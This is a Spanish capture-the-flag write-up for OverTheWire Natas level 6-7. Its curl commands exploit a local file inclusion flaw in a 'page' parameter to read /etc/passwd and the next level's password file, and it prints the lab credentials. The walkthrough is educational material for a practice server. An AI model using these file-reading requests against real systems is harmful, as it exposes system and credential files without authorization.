 ```yaml
---
title: OverTheWire - Natas 6 - 7 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 6 - 7 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas6-7-1.png)

Observamos 2 links y un hint que nos indica donde se ubica la contraseña de natas8 en el servidor.

![](/images/images-otw-natas/natas6-7-2.png)

Si vamos a los links no vemos nada interesante.

![](/images/images-otw-natas/natas6-7-3.png)


Si sustituimos el valor `about` por el valor del archivo `/etc/passwd` confirmamos que `index.php` es vulnerable a **LFI**.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/passwd'
```

![](/images/images-otw-natas/natas6-7-5.png)

Si ahora escribimos la ruta absoluta hacia la contraseña de natas8 `/etc/natas_webpass/natas8` obtenemos la contraseña.

```bash
curl -u natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

![](/images/images-otw-natas/natas6-7-4.png)

# Contraseña
---

`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

---

## [Anterior](/level-5-6)
## [Siguiente](/level-7-8)
